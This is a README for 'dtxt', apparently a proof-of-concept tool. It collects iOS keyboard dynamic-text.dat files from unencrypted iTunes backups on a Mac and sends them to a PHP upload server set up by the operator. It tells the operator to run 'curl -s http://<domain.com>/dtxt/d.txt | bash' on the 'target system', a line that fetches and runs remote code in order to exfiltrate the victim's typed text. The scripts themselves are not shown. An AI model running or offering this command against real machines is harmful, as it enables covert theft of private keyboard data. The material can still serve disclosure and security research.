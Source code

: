 dtxt
====

iOS stores text in /private/var/mobile/Library/Keyboard/dynamic-text.dat. If a user backs up their device with iTunes, without encryption, then the text is availible in plain text.

dtxt is a proof of concept that attempts to grab all dynamic-text.dat data for all iOS device that have been backed up with iTunes on any given Mac.

Setup:
1. Put d.txt, d.py, and index.php on a web server that supports PHP.
2. In d.txt edit the value of r_path variable.
3. In index.php edit the target_path variable - set it to a directory that the web server can write to.

Run:
To execute the dtxt run the following command on the target system:
curl -s http://<domain.com>/dtxt/d.txt | bash 

